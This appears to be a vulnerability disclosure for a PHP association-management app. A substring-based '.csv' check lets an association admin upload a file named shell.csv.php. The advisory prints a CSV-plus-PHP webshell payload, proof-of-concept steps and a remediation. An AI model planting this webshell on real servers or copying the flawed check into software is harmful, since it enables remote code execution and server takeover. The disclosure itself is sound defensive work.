

# Description

An Unrestricted Upload of File with Dangerous Type vulnerability (CWE-434) exists in the member import functionality at `/index.php?page=association/association_members.php`. The application allows association admins to import members via CSV file upload. However, the file extension check is improperly implemented using `strrpos` to check if `.csv` is a substring of the filename, rather than verifying the actual extension. Additionally, the MIME type and content checks can be bypassed with a crafted payload.

The vulnerable validation code:

```php
if (!strrpos(strtolower($uploadedFile['name']), ".csv")) {
    $errorMessage = "Ce n'est pas un fichier CSV.";
}
```

# Exploitation

An attacker who is admin of an association can upload a file with a name like `shell.csv.php` which passes the substring check (contains `.csv`). By crafting the file content to start with valid CSV data followed by a PHP webshell, the attacker bypasses both the MIME type check and the CSV content validation.

Payload example:

```csv
"ID utilisateur","Nom d'utilisateur",email
1,test,test@test.test
<?php system($_GET['cmd']);?>
```

The file is stored in the `./uploads` directory with its original name, making the webshell accessible via direct URL.

# PoC

1. Log in as an association admin.
2. Navigate to the member management page.
3. Use the import feature and upload a file named `shell.csv.php` with the crafted payload.
4. Access the uploaded webshell at `https://<IP>/uploads/shell.csv.php?cmd=id`.



# Risk

This vulnerability (CVSS 8.8) allows arbitrary code injection, enabling attackers to upload and execute a PHP webshell. This leads to Remote Code Execution (RCE), potentially resulting in complete server compromise, data theft, and lateral movement.

# Remediation

Use `pathinfo` with `PATHINFO_EXTENSION` for proper extension checking:

```php
$file_extension = pathinfo($uploadedFile['name'], PATHINFO_EXTENSION);
if (strtolower($file_extension) !== 'csv') {
    $errorMessage = "Ce n'est pas un fichier CSV.";
}
```

Additionally, delete the uploaded file after processing since there is no need to persist it.

# Author
unijambistes
